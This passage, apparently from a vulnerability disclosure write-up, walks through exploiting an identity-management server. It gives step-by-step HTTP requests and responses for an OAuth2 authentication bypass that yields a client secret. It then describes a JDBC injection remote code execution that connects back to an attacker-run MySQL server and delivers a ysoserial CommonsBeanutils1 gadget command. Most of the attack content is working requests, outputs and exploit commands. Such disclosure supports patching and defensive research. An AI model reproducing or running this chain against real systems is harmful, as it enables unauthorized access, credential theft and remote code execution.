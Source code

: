 ### OAuth2TokenResourceController ACS Authentication Bypass

1. First, we can grab the `activationToken`.

    Request:

    ```
POST /SAAS/API/1.0/REST/oauth2/generateActivationToken/Service__OAuth2Client HTTP/1.1
Host: photon-machine
Content-Type: application/x-www-form-urlencoded
Content-Length: 0
```

    Response:

    ```json
{
    "activationToken": "eyJvdGEiOiJiNmRlZmFkOS1iY2M3LTM3ZWUtYTdkZi05YTM2ZDcxZDU4MGE6c0dJcnlObEhxREVnUW...",
    "_links": {}
}
```

2. Now, with the activation token let's get the `client_id` and `client_secret`.

    Request:

    ```
POST /SAAS/API/1.0/REST/oauth2/activate HTTP/1.1
Host: photon-machine
Content-Type: application/x-www-form-urlencoded
Content-Length: 168

   eyJvdGEiOiJiNmRlZmFkOS1iY2M3LTM3ZWUtYTdkZi05YTM2ZDcxZDU4MGE6c0dJcnlObEhxREVnUW...
```

    Response:

    ```json
{
    "client_id": "Service__OAuth2Client",
    "client_secret": "uYkAzg1woC1qbCa3Qqd0i6UXpwa1q00o"
}
```

From this point, exploitation is just the standard OAuth2 flow to grab a signed JWT.

### DBConnectionCheckController dbCheck JDBC Injection Remote Code Execution

**Technique 1 - Remote code execution via the MySQL JDBC Driver autoDeserialize**

It was also possible to perform remote code execution via the MySQL JDBC driver by using the `autoDeserialize` property. The server would connect back to the attacker's malicious MySQL server where it could deliver an arbitrary serialized Java object that could be deserialized on the server. As it turns out, the off the shell ysoserial `CommonsBeanutils1` gadget worked a treat: `java -jar ysoserial-0.0.6-SNAPSHOT-all.jar CommonsBeanutils1 <cmd>`.
